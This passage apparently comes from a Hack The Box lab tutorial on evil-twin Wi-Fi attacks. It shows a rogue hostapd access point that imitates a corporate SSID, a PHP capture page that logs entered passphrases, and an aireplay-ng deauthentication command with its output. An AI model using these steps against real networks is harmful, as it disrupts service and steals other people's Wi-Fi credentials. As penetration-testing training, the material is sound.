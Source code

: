 The `received.php` file simply takes the user input and writes it to `passes.lst`, our dictionary. We will be using this dictionary later in order to validate the captured pre-shared keys against the handshake with CowPatty. When testing this form, if an error message is displayed by received.php, it is commonly a permissions issue, which can be resolved with the following command.

```shell
sudo chown -R www-data:www-data /var/www/html/passes.lst

```

* * *

### 4\. Spin up the fake access point

To set up our rogue access point, we use the following configuration file and save it as `hostapd.conf`:

```configuration
interface=wlan1
hw_mode=g
ssid=HTB-Corp
channel=1
driver=nl80211

```

Once the configuration file is ready, we launch the rogue access point using `hostapd`:

```shell
hostapd hostapd.conf

rfkill: Cannot open RFKILL control device
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED

```

Initially, we can wait for clients to connect to our rogue access point (AP) naturally. However, if no connections occur after a reasonable amount of time, we can forcefully encourage clients to connect by performing a deauthentication attack against the legitimate AP. This attack disconnects clients from the legitimate network, making them more likely to connect to our rogue AP.

To execute a deauthentication attack, we can use aireplay-ng:

```shell
aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 wlan0mon

11:51:19  Waiting for beacon frame (BSSID: D4:C1:8B:79:AD:45) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
11:51:19  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:20  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:20  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:21  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:21  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]

```
